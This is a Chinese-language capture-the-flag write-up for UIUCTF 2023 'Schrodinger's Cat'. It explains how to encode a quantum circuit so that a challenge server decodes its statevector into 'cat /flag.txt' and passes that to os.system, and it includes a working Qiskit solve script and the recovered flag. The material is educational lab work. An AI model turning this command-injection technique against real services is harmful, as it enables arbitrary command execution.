

# UIUCTF 2023 Schrodinger's Cat Writeup

## 题目简述

服务把字符串的 32 个 ASCII 码编码为 5 个量子比特的状态向量：先将字符串补空格到 $2^5=32$ 字节，再除以其二范数。选手提交一个 Base64 编码的 OpenQASM 电路，服务将该电路放在固定的 `echo 'Hello, world!'` 状态制备电路之前，求出最终状态向量，并用选手提交的归一化常数还原为可打印字符串，最后直接交给 `os.system` 执行。

目标是构造一个电路，使最终还原出的字符串变成 `cat /flag.txt`。

## 解题过程

设 $E$ 为把 $|0\rangle$ 制备成 `echo 'Hello, world!'` 编码状态的幺正电路，$P$ 为把 $|0\rangle$ 制备成 `cat /flag.txt` 编码状态的电路，选手电路为 $U$。服务器先执行 $U$，再执行 $E$，所以最终变换为：

$$
EU|0\rangle.
$$

量子电路是幺正且可逆的。选择：

$$
U=E^\dagger P,
$$

就有：

$$
EU|0\rangle=EE^\dagger P|0\rangle=P|0\rangle.
$$

在 Qiskit 的追加顺序中，应先追加目标状态制备 $P$，再追加 `echo` 状态制备的逆电路 $E^\dagger$。仓库给出的图正好展示了这两个阶段在五条量子线路上的组合：



`StatePreparation` 是高级复合指令，直接序列化可能产生服务端 OpenQASM 解析器无法识别的自定义门。因此还需要按服务使用的 Qiskit 版本将电路优化并分解为模拟器支持的基础门，再导出 OpenQASM 2.0。

```python
from base64 import b64encode
import numpy as np
from qiskit import Aer, QuantumCircuit, transpile
from qiskit.circuit.library import StatePreparation

WIRES = 5


def normalization(message):
    raw = np.array(
        [ord(character) for character in message.ljust(2**WIRES, " ")],
        dtype=float,
    )
    norm = np.linalg.norm(raw)
    return raw / norm, norm


echo_state, _ = normalization("echo 'Hello, world!'")
payload_state, payload_norm = normalization("cat /flag.txt")

payload = QuantumCircuit(WIRES)
payload.append(StatePreparation(payload_state), range(WIRES))
payload.append(StatePreparation(echo_state, inverse=True), range(WIRES))

payload = transpile(
    payload,
    backend=Aer.get_backend("aer_simulator"),
    optimization_level=3,
)

qasm_b64 = b64encode(payload.qasm().encode())
print(qasm_b64.decode())
print(f"{payload_norm:.12f}")
```

把第一行提交为 Base64 电路，第二行提交为归一化常数。服务器重建最终状态后，各振幅乘以该常数并四舍五入，得到 `cat /flag.txt`，随后 `os.system` 输出：

```text
uiuctf{f3yn_m4n_h3r32_j00r_fL49}
```

## 方法总结

本题的关键不是测量量子态，而是服务直接读取完整 statevector，并把振幅当作无损数据通道。已知固定后缀电路 $E$ 时，可利用幺正矩阵的可逆性，在用户电路中先制备目标态，再抵消 $E$。最终漏洞仍是把用户可控的计算结果送入 `os.system`；量子电路只是一层非常规的输入编码。序列化时还必须把复合门 transpile 为基础门，否则本地可运行的电路未必能被远端 OpenQASM 解析器复原。
